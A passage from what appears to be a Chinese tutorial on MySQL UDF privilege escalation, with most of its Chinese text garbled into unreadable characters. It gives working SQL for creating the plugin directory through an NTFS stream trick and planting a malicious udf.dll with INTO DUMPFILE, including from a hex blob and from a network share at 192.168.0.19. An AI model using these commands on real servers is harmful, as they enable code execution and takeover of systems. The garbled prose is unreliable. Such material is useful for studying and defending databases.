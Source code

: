 - my.ini����
```
[mysqld]
plugin_dir = C:\\temp\\plugins\\
```

### 3.2 �½����Ŀ¼

```
show variables like 'plugin_dir';   # �鿴·��

select 'xxx' into dumpfile 'D:\phpStudy\MySQL\lib::$INDEX_ALLOCATION';          # �½�Ŀ¼lib

select 'xxx' into dumpfile 'D:\phpStudy\MySQL\lib\plugin::$INDEX_ALLOCATION';  # �½�Ŀ¼plugin
```

### 3.3 ����UDF�ļ�����չĿ¼

- load_file����

- - load_file����֧������·���������DLL���Ƶ����繲���У������ֱ�Ӽ�������д����̡� 

```
select load_file('\\\\192.168.0.19\\share\\udf.dll') into dumpfile "D:\\phpStudy\\MySQL\\lib\\plugin\\udf.dll";
```

- ��һ��ʮ�����Ʊ�����ַ���������DLL�ļ�д����̡�

```
// ת��Ϊhex����
select hex(load_file('D:\\udf.dll')) into dumpfile "D:\\udf.hex";
// ����
select 0x4d5a...... into dumpfile "D:\\phpStudy\\MySQL\\lib\\plugin\\udf.dll";
```

- ����һ����������������ݲ��뵽ʮ�����Ʊ������У����еĶ�����������update��������ӡ�

```
create table temp(data longblob); 
insert into temp(data) values (0x4d5a9....); 
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000); select data from temp into dump file "D:\\phpStudy\\MySQL\\lib\\plugin\\udf.dll"; 
```

- ֱ���ڴ����Ͻ��ļ������繲����ص������ַ��������ı��У�ʹ�á�load data infile������ڱ��ؼ��ء�����ͼ��ʾ���ļ�ת��Ϊʮ�����ƣ�����д�����ʱȡ���༭�� 

```
load data infile '\\\\192.168.0.19\\share\\udf.hex' into table temp fields terminated by '@OsandaMalith' lines terminated by '@OsandaMalith' (data); 
select unhex(data) from temp into dumpfile 'D:\\phpStudy\\MySQL\\lib\\plugin\\udf.dll'; 
```

- ʹ��MySQL 5.6.1��MariaDB 10.0.5�н��ܵĺ�����to_base64���͡�from_base64���ϴ��������ļ��� 
